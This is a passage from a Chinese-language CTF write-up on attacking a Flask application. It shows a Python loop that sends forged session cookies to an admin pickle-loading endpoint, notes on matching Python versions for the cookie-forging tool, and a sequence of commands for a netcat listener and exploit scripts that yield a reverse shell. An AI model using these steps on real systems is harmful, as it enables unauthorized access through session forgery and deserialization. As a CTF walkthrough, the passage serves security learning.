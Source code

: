 ```python
url = input("url:#") + "admin_pickle_load"
for session in sessions:
    session=session.replace("\n","")
    # print(session)
    res=requests.get(url
                 ,cookies={"session":session}
                 )
    if res.text != "admin pickle":
        print("Suceess")
        print(res.text)
    else:
        print(res.text)
    print()
```

这里注意使用工具`flask_session_cookie_manager`伪造session的时候必须要和题目环境的python大版本相同(python2或python3,小版本可忽略),它们使用的脚本和生成的session是不一样的

按照下面顺序执行就能获得反弹的shell了:

窗口1:

```bash
nc -vnlp 4444
```

窗口2:

```bash
git clone https://github.com/noraj/flask-session-cookie-manager.git
cd flask-session-cookie-manager
vi dump.py #写入dump.py文件
python3 dump.py
#输入URL为题目URL,端口后面记得加上/
vi grep.py  #写入grep.py文件
python3 grep.py
cat keys
vi poc.py   #写入poc.py文件
python3 poc.py
```

![image-20220710015524840](https://images-1306872001.cos.ap-nanjing.myqcloud.com/image-20220710015524840.png)